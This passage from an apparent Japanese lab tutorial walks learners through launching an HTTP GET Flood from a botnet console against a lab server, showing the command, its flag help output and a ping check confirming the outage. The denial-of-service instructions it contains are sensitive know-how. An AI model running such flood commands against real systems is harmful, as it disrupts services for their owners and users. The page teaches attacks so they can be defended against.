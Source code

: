 	- HTTP GETリクエストを大量に送りつけてサービスを妨害する攻撃
- udp
	- UDPパケットを大量に送りつけてサービスを妨害する攻撃

全部で演習可能な攻撃は10種類あります．  
DDoS攻撃の中で，最も使用されている攻撃は，上から二つ目にあるSYN Flood攻撃になります． 


では，実際にコマンドを打って，攻撃を実行していきましょう．
攻撃対象のサーバのIPアドレスは,`172.23.0.2`です．  
pingコマンドで，サーバにアクセスできるか確認してください．

今回は例としてHTTP GET Flood攻撃を実施していきます．
HTTP GET Flood攻撃のコマンドを打っていきましょう．  
コマンドはhttp webサーバのipアドレス 攻撃時間 ?です．  
`?`は実行した際に，攻撃の詳細を表示するものとなっています．  
今回の攻撃時間は好きな長さで構いませんが，30秒間くらいで設定してください．  
すると，このような攻撃内容の結果が返ってくると思います．  
```
netlab@botnet# http 172.23.0.2 30 ?
List of flags key=val seperated by spaces. Valid flags for this method are
domain: Domain name to attack
dport: Destination port, default is random
method: HTTP method name, default is get
postdata: POST data, default is empty/none
path: HTTP path, default is /
conns: Number of connections
Value of 65535 for a flag denotes random (for ports, etc)
Ex: seq=0
Ex: sport=0 dport=65535
netlab@botnet#
```
英語ではわかりにくいと思うので，日本語に訳したものも載せておきます．  
```
netlab@botnet# http 172.23.0.2 30 ?
スペースで区切られたフラグのリスト．メソッドで有効なフラグは以下の通りです．
ドメイン: 攻撃するドメイン名
宛先ポート: デフォルトはランダム
HTTPメソッド名: デフォルトはget
POSTデータ: デフォルトは"/"
HTTPのパス: デフォルトは"/"
コネクション: ボット一台からの同時接続数 
フラグの値が65535の場合はランダムに設定
Ex: seq=0
Ex: sport=0 dport=65535
netlab@botnet#
```
今回の攻撃内容として，
- ドメイン名の指定なし
- 宛先ポートはランダム
- HTTP GET Flood攻撃なのでHTTPメソッドはGET（HTTP POST Flood攻撃もあるのですが，その場合はPOSTで設定します）
- 攻撃対象のHTTPのパスは"/"
- コネクションは指定なし
となっています．

攻撃の実施後，pingコマンドを再発行することで，正常にアクセスできなくなっていることがわかると思います．
その他の攻撃も色々試してみてください．

攻撃演習は以上となります．
対策演習に進んでください．